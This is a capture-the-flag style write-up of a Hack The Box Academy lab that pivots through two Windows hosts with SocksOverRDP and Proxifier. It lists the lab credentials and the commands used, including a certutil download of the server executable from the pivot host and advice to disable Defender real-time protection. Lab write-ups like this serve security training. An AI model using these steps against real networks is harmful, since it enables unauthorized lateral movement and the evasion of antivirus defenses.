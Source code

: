 
# HTB Academy - SocksOverRDP Pivoting Lab

**Author:** Don Trabajo  
**Platform:** Hack The Box Academy  
**Topic:** RDP and SOCKS5 Pivoting with SocksOverRDP  
**Level:** Medium  
**Category:** Network Pivoting / Tunneling

---

## 🧠 Objective

Pivot through multiple Windows machines using RDP tunneling with the **SocksOverRDP** tool. Ultimately retrieve `flag.txt` from the final target at `172.16.6.155`, user: `jason`.

---

## 🗺️ Network Topology

```
Kali (10.10.14.247)
   |
   |  <- VPN Tunnel ->
   |
Pivot Machine (10.129.42.198 / 172.16.5.150)
   |
   | <- RDP Connection + Plugin ->
   |
Victor Machine (172.16.5.19 / 172.16.6.19)
   |
   | <- Internal RDP Pivot via SocksOverRDP ->
   |
Target Machine (172.16.6.155)
```

---

## 🔑 Credentials

| Machine       | Username     | Password               |
|---------------|--------------|------------------------|
| Pivot Box     | htb-student  | HTB_@cademy_stdnt!     |
| Victor (172.16.5.19) | victor       | pass@123               |
| Target (172.16.6.155) | jason        | WellConnected123!      |

---

## ⚙️ Steps

### 1. 🖥️ RDP into Pivot Box
```bash
xfreerdp /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
```

### 2. 🔄 Transfer and Register Plugin
Transfer the `SocksOverRDP-x64` plugin to the **pivot** and **register the DLL**.

```cmd
regsvr32 SocksOverRDP-Plugin.dll
```

✔️ Disable real-time protection temporarily if the DLL is being auto-deleted.

### 3. 📦 Transfer Server to Victor Machine
Transfer `SocksOverRDP-Server.exe` to **Victor's desktop**. If Python is installed on the pivot:

```bash
# On pivot
python -m http.server 8080

# On Victor (CMD)
certutil -urlcache -split -f http://<pivot-ip>:8080/SocksOverRDP-Server.exe SocksOverRDP-Server.exe
```

If not, use Proxifier or `smbserver.py` as a transfer method.

### 4. 🧪 Launch Server on Victor
Run `SocksOverRDP-Server.exe` as **Administrator**. Look for:
```
[+] Channel opened over RDP
```

> ⚠️ Note: It may not show `listening on 127.0.0.1:1080`—this is expected. It’s being tunneled via RDP.

### 5. 🛠️ Configure Proxifier on Pivot
- Add Proxy Server:
  - IP: `127.0.0.1`
  - Port: `1080`
  - Type: SOCKS5
- Set up rule to tunnel `mstsc.exe` through the proxy

### 6. 🔌 RDP into Final Target
Use `mstsc.exe` on pivot:
```cmd
mstsc.exe
```
- Connect to: `172.16.6.155`
- User: `jason`
- Password: `WellConnected123!`

✔️ You’re now RDP’d through **2 levels of pivoting** via SocksOverRDP.

---

## 📁 Flag Path

Navigate to Jason's desktop and read `flag.txt`.

---

## 🧠 Lessons Learned

- DLLs on Windows can be silently deleted by Defender—disable RTP as needed.
- SocksOverRDP requires **plugin registered on the client** and **server launched on the RDP target**.
- Proxifier is a lightweight and effective way to redirect tools through SOCKS5 tunnels.
- Tunneling RDP over RDP is very much possible and even stealthy if done right.

---

## 🧪 Commands Cheat Sheet

```cmd
# Check if SocksOverRDP is running on Victor
tasklist | findstr server.exe

# Check listener
netstat -an | findstr 1080
```

---

## 📸 Screenshots

_Add any screenshots or terminal logs here if you're sharing publicly._

---

## 📚 References

- [SocksOverRDP GitHub](https://github.com/nccgroup/SocksOverRDP)
- HTB Academy Module: "Pivoting, Tunneling, and Port Forwarding"

---

✍️ _Don Trabajo strikes again with another lab cracked and documented. Respect the tunnel!_
